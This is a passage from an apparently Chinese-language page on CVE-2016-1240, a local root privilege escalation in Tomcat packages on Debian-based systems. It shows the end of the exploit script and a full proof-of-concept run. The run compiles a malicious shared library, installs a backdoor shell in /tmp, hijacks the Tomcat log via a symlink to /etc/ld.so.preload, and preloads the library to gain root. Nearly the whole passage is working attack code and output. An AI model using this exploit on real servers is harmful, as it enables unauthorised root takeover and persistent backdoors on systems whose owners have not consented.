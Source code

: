 ```bash
$BACKDOORPATH -p

# Job done.
cleanexit 0
```

poc运行示例：


```bash
tomcat7@ubuntu:/tmp$ id
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

tomcat7@ubuntu:/tmp$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 16.04 LTS
Release:    16.04
Codename:   xenial

tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat
ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- core libraries
ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine
ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- common files

tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out 
 
Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
CVE-2016-1240

Discovered and coded by: 

Dawid Golunski 

http://legalhackers.com

[+] Starting the exploit in [active] mode with the following privileges: 
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

[+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

[+] Symlink created at: 
lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

[+] Waiting for Tomcat to re-open the logs/Tomcat service restart...
You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)
 

[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: 
-rw-r--r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
/tmp/privesclib.so

```
